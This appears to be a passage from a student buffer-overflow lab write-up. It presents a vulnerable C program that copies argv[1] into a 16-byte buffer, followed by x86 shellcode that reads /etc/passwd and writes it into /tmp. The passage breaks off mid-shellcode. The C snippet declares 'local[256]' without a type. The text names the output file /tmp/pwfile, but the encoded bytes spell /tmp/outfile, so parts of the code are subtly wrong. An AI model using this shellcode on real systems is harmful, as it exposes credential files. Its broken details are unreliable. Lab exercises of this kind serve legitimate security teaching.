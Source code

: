 # Lab #1,22110051, Tran Hoang Long, INSE331280E_02FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
```